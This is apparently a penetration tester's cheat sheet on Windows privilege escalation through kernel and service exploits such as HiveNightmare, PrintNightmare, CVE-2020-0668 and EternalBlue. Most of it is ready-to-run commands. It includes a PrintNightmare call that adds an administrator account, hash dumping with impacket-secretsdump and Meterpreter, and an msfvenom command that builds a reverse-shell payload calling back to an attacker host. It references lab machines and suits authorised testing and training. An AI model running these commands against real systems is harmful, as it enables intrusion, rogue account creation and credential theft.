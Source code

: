 # Kernel Exploits (Windows Privilege Escalation)

## Summary

Kernel exploits target vulnerabilities in the Windows kernel to elevate privileges from a low-privileged user to SYSTEM. These are especially effective on unpatched or end-of-life systems. They typically rely on gaining arbitrary file write or execution in a privileged context.
## Conditions for Exploitation

- Access to local shell (non-admin user)    
- OS is unpatched or missing specific security updates
- Vulnerable kernel version (commonly determined via `systeminfo` and hotfix enumeration)
- May require software such as Firefox Maintenance Service or Task Scheduler present
## Enumeration

### Check OS Version and Patch Level

```powershell
systeminfo
wmic qfe list brief
Get-Hotfix
```

### Check for Spooler Pipe (PrintNightmare)

```powershell
ls \\localhost\pipe\spoolss
```

### Check SAM File Permissions (HiveNightmare)

```powershell
icacls c:\Windows\System32\config\SAM
```

### Check Current Privileges

```cmd
whoami /priv
```

## Exploitation Examples

### CVE-2021-36934: HiveNightmare (SeriousSam)

- Non-admin can read SAM, SYSTEM, and SECURITY hives if shadow copies exist    
- Use `HiveNightmare.exe` PoC to dump hives
- Dump hashes using:

```bash
impacket-secretsdump -sam SAM -system SYSTEM -security SECURITY local
```

### CVE-2021-1675 / CVE-2021-34527: PrintNightmare

- Exploit RpcAddPrinterDriver vulnerability
- PowerShell PoC: `Invoke-Nightmare`

```powershell
Set-ExecutionPolicy Bypass -Scope Process
Import-Module .\CVE-2021-1675.ps1
Invoke-Nightmare -NewUser hacker -NewPassword Pwnd1234! -DriverName PrintIt
```

### CVE-2020-0668: Arbitrary File Move via Service Tracing

- Move file into protected location and overwrite SYSTEM binary    
- Chain with startable service (e.g. Mozilla Maintenance Service)
- Build PoC in Visual Studio, run:

```cmd
CVE-2020-0668.exe source.exe dest.exe
```

- Replace corrupted binary with backup copy
- Start the service:

```cmd
net start MozillaMaintenance
```

- Receive SYSTEM shell via Meterpreter
### MS17-010: EternalBlue

- Remote Code Execution in SMBv1    
- Can be used locally if 445 is blocked externally
- Exploit with Metasploit or standalone EternalBlue script
### MS08-067: Server Service RCE

- RCE on older systems (XP, 2003)    
- Also works for local privilege escalation when port 445 is inaccessible
### ALPC Task Scheduler 0-Day

- Write arbitrary DACL to .job files    
- Chain with DLL hijack via Spooler service
- Exploited on HTB box: Hackback
## Post Exploitation

### Meterpreter Reverse Shell

```bash
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=IP LPORT=8443 -f exe > shell.exe
```

Start handler:

```bash
msfconsole -r handler.rc
```
### Hash Dump

```meterpreter
getuid
sysinfo
hashdump
```
## Notes

- These techniques are noisy and often require restarting services or creating files    
- Avoid using them in stealth operations unless scoped
- Always confirm patch level and target applicability before attempting kernel exploits
## Tools

- HiveNightmare.exe    
- CVE-2020-0668.exe
- Metasploit    
- impacket-secretsdump
- Invoke-Nightmare.ps1    
## References

- MSRC Bulletins
- Exploit-DB
- HTB machines: Legacy, Blue, Hackback
# Tags
> #Windows-Post-Exploitation #Windows-Privesc #Kernel-Exploits 